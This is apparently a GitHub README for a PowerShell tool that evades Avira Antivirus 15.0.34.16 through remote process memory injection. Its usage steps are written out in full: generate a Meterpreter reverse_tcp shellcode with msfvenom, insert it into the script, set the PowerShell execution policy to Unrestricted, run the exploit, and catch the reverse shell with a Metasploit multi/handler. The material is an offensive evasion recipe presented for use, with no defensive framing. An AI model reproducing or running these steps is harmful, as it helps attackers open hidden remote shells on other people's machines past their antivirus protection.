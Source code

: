 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

 Bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port_you_listen>
run
